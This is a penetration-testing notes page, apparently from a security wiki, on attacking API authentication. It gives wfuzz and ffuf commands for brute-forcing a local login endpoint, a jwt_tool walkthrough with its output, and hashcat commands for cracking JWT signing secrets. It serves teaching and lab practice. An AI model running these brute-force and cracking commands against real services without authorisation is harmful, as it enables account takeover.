

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Authentication Attacks

## Classic Attacks

Brute-forcing/Password-spraying with Intruder (if Burp Pro is available) or [`ffuf`](../../../../tools/tools/web/dirbusting/fuff.md)/`wfuzz`.

<figure><figcaption></figcaption></figure>


```bash
# Fuzzing with wfuzz
wfuzz -u http://127.0.0.1:8888/identity/api/auth/login -X POST -d '{"email":"testuser@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -w pass

# Fuzzing with ffuf
ffuf -u http://127.0.0.1:8888/identity/api/auth/login -X POST -d '{"email":"testuser@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -w pass -c
```


<figure><figcaption></figcaption></figure>

## API Token Attacks

### Entropy Analysis

<figure><figcaption></figcaption></figure>

If it is a kind-of-predictable token we try brute-forcing it with Intruder.

### JWTs

Characteristics:

* Base64 encoded
* Starts with `ey`
* Has 3 sections: header, payload, signature
* Can be decoded using [https://jwt.io/](https://jwt.io/\)) or using [`jwt_tool.py`](https://github.com/ticarpi/jwt\_tool)

<figure><figcaption></figcaption></figure>

Common Workflow:

1. Recon -> decode the token to see what's in it.
2. Scan -> run a Playbook Scan against the app to check for common misconfigurations
3. Exploit -> If any vulnerability is found try to exploit it
4. Fuzz -> Check for unexpected values and claims to identify unexpected app behaviours
5. Review -> Check the logs of any successful exploitation


```bash
# 1. Recon
$ jwt_tool.py eyJ...<SNIP>...jmg

Original JWT:

=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = "RS256"

Token payload values:
[+] sub = "testuser@email.com"
[+] role = "user"
[+] iat = 1717597214    ==> TIMESTAMP = 2024-06-05 15:20:14 (UTC)
[+] exp = 1718202014    ==> TIMESTAMP = 2024-06-12 15:20:14 (UTC)

Seen timestamps:
[*] iat was seen
[*] exp is later than iat by: 7 days, 0 hours, 0 mins

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------

# 2. Playbook Scan
$ jwt_tool.py -rh "Authorization: Bearer eyJ...<SNIP>...2Tw"  -t http://127.0.0.1:8888/identity/api/v2/user/dashboard -M pb

<SNIP>
Scanning mode completed: review the above results.

The following additional checks should be performed that are better tested manually:
[+] Try testing HS token against weak password configurations by running the following hashcat cracking options:
(Already testing against passwords in jwt-common.txt)
Try using longer dictionaries, custom dictionaries, mangling rules, or brute force attacks.
hashcat (https://hashcat.net/hashcat/) is ideal for this as it is highly optimised for speed. Just add your JWT to a text file, then use the following syntax to give you a good start:

[*] dictionary attacks: hashcat -a 0 -m 16500 jwt.txt passlist.txt
[*] rule-based attack:  hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule
[*] brute-force attack: hashcat -a 3 -m 16500 jwt.txt ?u?l?l?l?l?l?l?l -i --increment-min=6
[+] Try waiting for the token to expire ("exp" value set to: 2024-06-12 19:11:05 (UTC))
Check if still working once expired.
```

